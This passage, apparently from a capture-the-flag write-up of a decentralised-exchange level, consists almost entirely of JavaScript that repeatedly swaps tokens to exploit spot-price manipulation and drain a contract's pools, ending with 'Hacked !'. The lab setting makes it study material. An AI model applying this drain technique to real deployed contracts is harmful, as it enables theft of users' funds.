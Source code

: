 ```js
    let toSwap  = (await contract.balanceOf(tokensWithValues.mostExpensiveToken,PLAYER)).toNumber();
    let available = (await contract.balanceOf(tokensWithValues.mostExpensiveToken,contract.address)).toNumber();

    // to be able to drain the funds and not stop when we got too much tokens.
    if(toSwap>available)toSwap=available;

    return toSwap;
}


async function drainFunds(){
    
    let flag=true; // check condition

    // approving otherwise you will get an error due to how ERC20 works.
    await contract.approve(contract.address,10000,{from:PLAYER});

    while(flag){
        const balances = await getBalances();
        const tokenValues =  knowTokenValues(balances);
        const toSwap = await getSwapValues(tokenValues);
        await contract.swap(tokenValues.mostExpensiveToken,tokenValues.cheapestToken,toSwap,{from:PLAYER});
        console.log(`swapped ${toSwap} ${tokenValues.mostExpensiveToken} for  ${tokenValues.cheapestToken}`);

        flag = token1Balance*token2Balance>0;
    }
    
    console.log("Hacked !")
}


module.exports = async  function(deployer) {
  
  contract = await contractABI.at("0xBa71E2eEF0D68C5aBCDe6dF3EEf9377b9eD9E78C"); 
  await drainFunds();
};
```

![Dex console](images/852281f645c829a2d76b966618bbb6c25f1c4721506ecca9de0e7e6ef4fab42f.png)  
